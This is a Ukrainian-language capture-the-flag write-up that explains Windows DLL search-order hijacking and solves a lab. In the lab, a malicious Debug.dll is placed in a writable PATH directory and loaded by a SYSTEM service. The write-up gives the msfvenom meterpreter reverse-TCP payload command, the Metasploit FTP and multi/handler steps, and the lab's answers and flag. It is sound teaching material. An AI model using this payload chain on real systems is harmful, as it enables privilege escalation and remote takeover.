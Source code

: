 # DLL Hijacking  

## Що таке DLL  
Бібліотека динамічних посилань (DLL) є основним компонентом операційної системи Windows. Вони часто пишуться як бібліотека для зберігання коду або функцій, які можуть використовуватися кількома програмами. Якщо зловмисник може контролювати, яку DLL завантажує програма, то зловмисник може вставити шкідливу DLL в процес завантаження DLL. Цей процес відомий як порядок пошуку DLL.  

## Порядок пошуку DLL   
Коли програма виконується часто чи ні, для її запуску потрібен набір залежностей. Це DLL. Якщо програмі потрібно використовувати частину функціональності, що міститься в DLL, їй спочатку потрібно буде завантажити цю DLL. Перед завантаженням DLL операційна система знайде необхідні DLL, шукаючи набір каталогів у певному порядку. Якщо явний шлях не визначено, Windows використовуватиме такий порядок пошуку, щоб знайти DLL в системі:

    1. Каталог, з якого завантажувалася програма.
    2. Поточний каталог.
    3. Системний каталог. | C:\Windows\System32
    4. 16-розрядний системний каталог | C:\Windows\System
    5. Каталог Windows | C:\Windows
    6. Каталоги, перераховані у змінній середовища PATH.

## DLL Hijacking  
Якщо DLL відсутня в системі, а зловмисник має доступ на запис до будь-якої теки в наведеному вище порядку пошуку, він може перемістити DLL в теку з іменем відсутньої DLL. Потім це буде завантажено програмою, яка дозволить виконувати код у контексті користувача, який запускає програму (що може бути в контексті СИСТЕМИ). Крім того, якщо DLL дійсно існує в системі, але знаходиться в теці, яка є низькою в порядку пошуку (тобто в каталозі в PATH), і є тека, до якої зловмисник може записати далі в порядку пошуку, тоді замість нього буде завантажено DLL зловмисника.

## У цій лабораторії  
У цій лабораторній роботі розробник інсталював спеціальну службу на машині Windows під назвою «Служба налагодження розробника», яка працює як СИСТЕМА і налаштована на запуск під час запуску. Ця служба шукає відсутню DLL під назвою «Debug.dll». Ваше завдання полягає в тому, щоб створити шкідливе DLL-навантаження за допомогою msfvenom, знайти каталог, з якого служба намагається викликати відсутню DLL, захопити процес порядку пошуку, щоб підвищити привілеї та прочитати токен.

## Завдання на цю лабораторну:
    1. Знайдіть каталог із доступом до запису, який шукається, коли Windows намагається знайти DLL
    2. Використовуючи msfvenom, створіть корисне навантаження DLL, яке можна додати до каталогу
    3. Отримайте доступ до СИСТЕМИ та прочитайте, що міститься у файлі C:/token.txt

### Перше запитання:
Який каталог можна використовувати для захоплення відсутньої DLL?
    - javapath

Для початку ми відкриваємо термінал PowerShell, для того, щоб дізнатись, чи є у нас доступ для запису до вищевказаних директорій. Перевіряємо їх доступність за допомогою наступної команди: (Get-Acl $Path).AccessToString. Тепер коли ми визначили директорію, нам залишається лише вписати відповідь.

### Друге запитання:
Який маркер всередині C:\token.txt?
    - g00d3ff0rth3r3saflag

MSFVenom – безплатний інструмент для створення корисного навантаження (шкідливого файлу). Це, як кажуть, двоюрідний брат Metasploit. З його допомогою ви можете створювати різні корисні навантаження, шелл-код та зворотний шелл.

Reverse TCP (зворотне підключення, зворотний шелл, пейлоад) - схема взаємодії з цільовим комп'ютером. Говорячи простою мовою. Ми створюємо шкідливий файл (корисне навантаження), після запуску якого цільовий комп'ютер намагатиметься підключитися до нашого комп'ютера. Це називається «бекконнект» або в нашому випадку зворотний шелл, тому що «бекконнект» - це поняття розтяжне.

Metasploit – це платформа для тестування на проникнення, з якою ви можете знаходити, експлуатувати та підтверджувати вразливість.

Meterpreter — розширена функціональна начинка (Payload), яка може бути динамічно розширена під час виконання. У нормальних умовах це означає, що це забезпечує Вас основною оболонкою і дозволяє Вам додавати нові особливості до неї в міру необхідності.

FTP (англ. File Transfer Protocol, укр. протокол передавання файлів) — стандартний мережевий протокол прикладного рівня призначений для пересилання файлів між клієнтом та сервером в комп'ютерній мережі.

Для початку ми створюємо payload, це робиться наступним чином: msfvenom -p windows/meterpreter/reverse_tcp lhost=localhost lport=5555 -f exe > /path/Debug.dll
 - -p: тип корисного навантаження;
 - lhost: ip адреса поточної машини; 
 - lport: локальний порт поточної машини;
 - -f: для якого типу потрібно створювати корисне навантаження;

Після чого наша задача полягає в передачі файлу на іншу віртуальну машину. Це можна зробити декількома варіантами, але в нашому випадку я знайшов один для себе, а саме через відкриття локального FTP сервера через msfconsole.  

Для початку розгорнемо сервер FTP наступними діями:
```
    msfconsole
    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot
    msf > set SRVHOST localhost
    msf > set SRVPORT [1022 > 65535]
    msf > exploit
```

Тепер ми переходимо на віндовс машину, після чого переходимо в адресну стрічку браузера, де ми вписуємо:
```
    ftp://srvhost:srvport
```
І просто завантажуємо інтересуючий нас файл, після чого переміщуємо у вище визначену директорію. Далі ми завершаємо сесію msfconsole й відкриваємо нову з використанням експлойта handler:
```
    msfconsole
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost localhost
    msf exploit(handler) > set lport localport
    msf exploit(handler) > exploit
```

При правильному виконанні  всіх дій, наступним нашим кроком буде відкриття сервісних служб у віндовс, для того, щоб запустити:  "Служба налагодження розробника", яка підвантажити нашу створену корисне навантаження. Після чого відкриється meterpreter сесія на машині Kali, де ми зможемо прочитати токен за допомогою команди:
```
    more C:\token.txt
```

### Третє запитання:
Який 4-й крок у порядку пошуку DLL?
    - 16-розрядний системний каталог

### Четверте запитання:
Правда чи неправда. Якщо DLL існує в системі, зловмисник все ще може використати порядок пошуку за допомогою шкідливої ​​DLL?
    - Правда, адже можна використати каталог вищого порядку

### П'яте запитання:
Що з наведеного нижче найкраще описує викрадення DLL?
    - Використання недоліків у процесі заміщення файлу в директорії вищого порядку для пошуку DLL